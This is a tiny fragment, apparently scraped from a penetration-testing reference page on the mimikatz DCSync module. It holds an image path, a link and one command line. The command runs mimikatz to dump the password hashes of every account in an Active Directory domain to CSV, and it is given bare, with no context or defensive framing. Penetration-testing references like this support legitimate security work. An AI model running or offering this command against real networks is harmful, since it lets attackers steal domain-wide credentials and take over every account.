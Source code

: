 https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync

```
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /all /csv" "exit"
```

